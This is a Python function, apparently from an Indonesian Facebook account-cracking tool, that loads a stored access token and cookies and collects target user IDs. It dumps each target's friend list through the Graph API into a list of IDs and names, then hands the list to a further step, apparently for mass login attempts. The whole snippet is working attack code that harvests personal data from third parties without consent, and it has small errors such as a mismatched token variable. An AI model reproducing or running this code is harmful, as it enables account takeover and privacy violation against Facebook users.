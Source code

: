 #----------[ CRACK-PUBLIK  ]----------#            
def crack_publik():
	try:
		token = open('.cyxieontoken.txt','r').read()
		cok = open('.cyxieoncokies.txt','r').read()
	except IOError:
		print(f"{kun}╭────────────────────────────────────────────{puti}")
		exit(f"{kun}└──[{mer} Cokies Expired ")           
	try:
		print(f"{kun}╭────────────────────────────────────────────{puti}")
		kumpulkan = int(input(f'{kun}└──[{puti} Berapa target : '))
	except ValueError:
		print(f"{kun}╭────────────────────────────────────────────{puti}")
		exit(f"{kun}└──[{mer} Yang bener :-( ")    
	if kumpulkan<1 or kumpulkan>100:
	    print(f"{kun}╭────────────────────────────────────────────{puti}")
	    exit(f"{kun}└──[{mer} Gagal Dump ")    
	ses=requests.Session()
	bilangan = 0
	for KOTG49H in range(kumpulkan):
		bilangan+=1
		print(f"{kun}╭────────────────────────────────────────────{puti}")
		Masukan = input(f'{kun}└──[{puti} Target ke '+str(bilangan)+f' :{hijo} ')
		uid.append(Masukan)
	for user in uid:
	    try:
	       graph = ses.get('https://graph.facebook.com/v11.0/'+user+'?fields=friends.limit(99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999)&access_token='+tokene[0], cookies = {'cookies':cok}).json()
	       for xr in graph['friends']['data']:
	           try:
	               gmail = (xr['id']+'|'+xr['name'])
	               if gmail in id:pass
	               else:id.append(gmail)
	           except:continue
	    except (KeyError,IOError):
	      pass
	    except requests.exceptions.ConnectionError:
	          print(f"{kun}╭────────────────────────────────────────────{puti}")
	          exit(f"{kun}└──[{mer} Koneksi Problem ")
	try:
	      print(f"{kun}╭────────────────────────────────────────────{puti}")
	      print(f'{kun}└──[{puti} Total target :{hijo} '+str(len(id)))
	      atur_id()
	except requests.exceptions.ConnectionError:
	      print(f"{kun}╭────────────────────────────────────────────{puti}")
	      exit(f"{kun}└──[{mer} Gagal Dump ")
	except (KeyError,IOError):
	      print(f"{kun}╭────────────────────────────────────────────{puti}")
	      exit(f"{kun}└──[{mer} Tidak punya teman ")
	      